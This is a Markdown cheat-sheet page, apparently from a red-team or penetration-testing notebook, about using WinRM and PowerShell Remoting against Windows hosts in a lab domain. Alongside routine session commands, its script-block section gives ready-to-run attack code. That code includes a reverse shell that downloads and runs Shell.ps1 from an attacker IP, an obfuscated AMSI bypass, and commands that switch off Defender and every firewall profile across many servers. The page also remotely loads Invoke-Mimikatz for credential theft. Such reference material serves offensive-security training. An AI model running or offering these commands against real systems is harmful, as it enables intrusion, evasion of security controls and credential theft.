 # WinRM

WinRM stands for Windows Remote Management that allows to perform management tasks on systems remotely, WinRM is available if the port is opened.

WinRM Ports:

* **5985/tcp (HTTP)**
* **5986/tcp (HTTPS)**

## Enumeration

Find machines with PS Session

[#user-hunting](../ad-enumeration/gnereral.md#user-hunting "mention")

## PS Session

{% hint style="info" %}
PSRemoting uses Windows Remote Management (WinRM) which is Microsoft's implementation of WS-Management.
{% endhint %}

Enable PowerShell Remoting on local system (Requires elevated privileges)

```powershell
Enable-PSRemoting
```

#### Create a session

```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
```

#### Enter existing session

```powershell
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local

# Using session object
Enter-PSSession -Session $sess
```



## Invoke-Command

<pre class="language-powershell"><code class="lang-powershell"># test remoting connection
Invoke-Command -Session $Session -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'
Invoke-Command -Computername Srv01.Security.local -ScriptBlock {Whoami;Hostname}
<strong>
</strong># Run locally loaded functions on target system
Invoke-Command -Computername Srv01.Security.local -ScriptBlock ${Function:Test-Function}
Invoke-Command -Session $Session -FilePath -ScriptBlock ${Function:Test-Function}

# Load script
Invoke-Command -FilePath 'C:\Tools\Invoke-Mimikatz.ps1' -Session $Session
<strong>Invoke-Command -Computername Srv01.Security.local -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'
</strong><strong>
</strong><strong># Multiple connections
</strong><strong>Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content &#x3C;list_of_servers>) 
</strong></code></pre>

#### Useful script blocks

```powershell
# Language Mode
Invoke-Command ComputerName <target> -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}

# Reverse shell
Invoke-Command -ComputerName Srv01.Security.local -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://<IP>/Shell.ps1')"}

#Bypass AMSI
Invoke-Command -session $Session -ScriptBlock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )}

# Turns off all firewall profiles
Invoke-Command -ComputerName Srv02.Security.local -ScriptBlock {Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}

# Turns off Defender and Firewall on multiple systems
Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true;`
Set-MpPreference -DisableIOAVProtection $true;`
Set-MPPreference -DisableBehaviorMonitoring $true;`
Set-MPPreference -DisableBlockAtFirstSeen $true;`
Set-MPPreference -DisableEmailScanning $true;`
Set-MPPReference -DisableScriptScanning $true;`
Set-MpPreference -DisableIOAVProtection $true;`
Add-MpPreference -ExclusionPath "C:\Windows\Temp";`
Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}`
-ComputerName (Get-Content c:\Serverlist.txt)
```

## Winrs

```powershell
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname 
```


